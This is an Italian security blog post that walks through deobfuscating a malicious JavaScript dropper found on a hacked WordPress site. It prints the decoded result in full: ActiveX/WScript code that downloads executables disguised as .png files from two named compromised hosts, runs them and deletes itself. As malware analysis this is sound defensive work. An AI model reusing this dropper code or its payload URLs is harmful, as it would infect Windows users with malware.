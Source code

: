 ```yaml
---
layout: post
author: thesp0nge
title: "Decifrare semplici Javascript malevoli"
promotion: 
modified: 
featured: false
category: [post]
tags: [javascript, malware, evilcode]
image:
  feature: code.jpg
comments: true
share: true
---
```

Compromettere un sito, può essere una cosa semplice. Compromettere un sito
basato su [WordPress](https://wordpress.org) può essere una cosa molto
semplice. 

Semplicemente chi usa [WordPress](https://wordpress.org) vuole qualcosa di
semplice e veloce per essere online il prima possibile. Spesso per questo
genere di progetti, il budget a disposizione è limitato e, di conseguenza, temi
come _hardening_ o _penetration test_ non trovano spazio nelle voci di
bilancio.

Bucare un sito in WordPress, per distribuire codice malevolo è una pratica abbastanza comune. E' quello che ha notato un amico, ieri durante un test.

Ha trovato [questo codice JavaScript](http://pastebin.com/AjyQ8wwC),
all'interno di un sito. Dedicato ad altre attività sul sito, ha chiesto una
mano per decifrare al volo quello che, a prima vista, era un codice JavaScript
un po' "offuscato".

In questo caso la struttura del codice era abbastanza chiara. Nella prima
variabile, _links_, dovevano esserci delle url, probabilmente afferenti ad un
secondo _stage_ di questo malware. Nella seconda variabile, _code_, doveva
esserci il codice vero e proprio del malware ed in coda la coppia formata dalla
routine per mettere in chiaro _links_ e _code_ ed il codice per innescare tutto
il processo.

{% highlight js %}
function d( c )
{
    c = c.split( '' );
    for( var i = 0; i < c.length; i += 3 ) {
        c[ i ] = '';
    }
    return c.join( '' );
}
{% endhighlight %}

Come lo possiamo mettere in chiaro per una successiva analisi? Semplice. Ci
serve un browser e la console con gli strumenti di sviluppo.

![Il nostro tool di deobfuscation]({{site.url}}/assets/images/js_open_web_console.png)

Una volta qui, la prima cosa che dobbiamo fare è dichiarare la routine di
decifratura. La funzione _d()_ in questo caso.

![Dichiaro d()]({{site.url}}/assets/images/js_declare_decrypt_routine.png)

Incolliamo poi, all'interno della console, le due variabili _links_ e _code_
che ci interessa mettere in chiaro. Attenzione, poiché stiamo parlando con
l'interprete JavaScript del browser, dobbiamo incollare l'intera dichiarazione
della variabile, in modo che sia sintatticamente corretta.

![Dichiaro le due variabili]({{site.url}}/assets/images/js_paste_encrypted_strings.png)

A questo punto, il gioco è fatto. Basta invocare la nostra routine di
decifratura, _d()_, sulle variabili _links_ e _code_ ed abbiamo il codice dle
malwar in chiaro.

![Decifro le stringhe]({{site.url}}/assets/images/js_decrpyt_strings.png)

_Voilà_, [decifrato](http://pastebin.com/mUt43QTb)

Questi i link contenenti il payload da scaricare sul browser della vittima:

{%highlight js%}
"var links = ["http://www.stageportieri.it/wp/P330494.png","http://www.starcrossedgdr.altervista.org/pages/im/P0003939.png"];"
{%endhighlight%}

Questo il codice malevolo:

{%highlight js%}
"var ws = new ActiveXObject( "WScript.Shell" );if( ws.Exec( "ping" ).StdOut.ReadAll().match( /ping/ ) ) {    var obj = new ActiveXObject( "MSXML2.XMLHTTP" );    var File = WScript.CreateObject( "Scripting.FileSystemObject" );    var temp = File.GetSpecialFolder( 2 );    function genFileName()    {        return "/" + Math.round( Math.random() * 999999999 ) + ".exe";    }    function run( filename )    {        var ws = new ActiveXObject( "WScript.Shell" );        ws.Run( filename, 1, 0 );    }    function saveFile( body, filename )    {        Stream.Open();        Stream.Type = 1;        Stream.Write( body );        Stream.Position = 0;        Stream.SaveToFile( filename, 2 );        Stream.Close();    }    function deleteFile( filename )    {        if( File.FileExists( filename ) ) {            File.DeleteFile( filename );        }    }    function suicide()    {        deleteFile( WScript.ScriptFullName )    }    var Stream = new ActiveXObject( "ADODB.Stream" );    for( var i = 0; i < links.length; i++ ) {        var filename = temp + genFileName();        obj.Open( "GET", links[ i ], false );        obj.Send();        if( obj.Status == 200 ) {            try {                saveFile( obj.ResponseBody, filename );                run( filename );                done = true;            }            catch( err ) {            }        }    }    suicide();}"
{% endhighlight %}

Analizzandolo, abbiamo un codice che vuole creare un oggetto ActiveX, quindi un
codice pensato per colpire vittimeWindows con Internet Explorer. I due link,
probabilmente piazzati lì dopo aver compromesso anche le macchine che li
ospitano, non sono ovviamente immagini, ma sono due file eseguibili.

Il codice, cerca di scaricarli dalla rete e li lancia in esecuzione. Purtroppo
nessuno dei due file era disponibile al momento della scrittura di questo post,
quindi niente analisi del codice della fase 2.

Enjoy it!

